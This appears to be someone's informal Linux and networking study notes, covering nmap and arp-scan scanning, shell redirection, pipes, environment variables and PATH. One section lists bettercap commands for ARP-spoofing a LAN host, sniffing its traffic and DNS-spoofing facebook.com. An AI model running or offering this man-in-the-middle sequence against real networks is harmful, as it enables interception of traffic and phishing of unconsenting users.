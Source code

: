 # `nmap ,arp-scan & bettercap`:

        - find devices on local net : nmap, arp-scan
                sudo nmap (all info) 192.168.1.0/24 (-sn ip/mac/up|down)
                sudo arp-scan --interface=wlo1  --localnet

        - sudo bettercap :
                (bettercap) net.probe on ,net.show (scan and show devices on local net)
                (bettercap) set arp.spoof.fullduplex true
                (bettercap) set arp.spoof.targets 192.168.1.20 ,arp.spoof on ,net.sniff on
                (bettercap) set dns.spoof.domains facebook.com ,dns.spoof on

# `linux structure` :

        software => kernel => hardware
        command => shell =>  glibe  => kernel                     
                              /\
                              ||                                         
                services => systemd (manger of evrything)               

# `redirection` :

        (redirection) <  input
        (redirection) >  output override
        (redirection) >> output append
        (redirection) 2>/dev/null redirect errors
        (redirection) &>/file put output+errors in

# `pipe | tee` :

        (pipe) ps aux | tee psfile.txt | grep ssh (tee will put the output of ps in psfile.txt)

# `bash` :

        bash creates a subshell under current shell

# `env environment` :

        env (shows environment vars)
        /etc/environment

# `variables` :

        (vars) system (default linux) ,environment (application use)
        (vars) varname = value (define var "only known to the current shell")
        (vars) command(echo) $varname (read var value)
        (vars) export varname=value (no $ sign ,define var "all shells")
        (vars) $PATH var (executable commands paths "add file.sh to one of $PATH paths to make it accessible in shell", "usr/local/bin all users can use it")

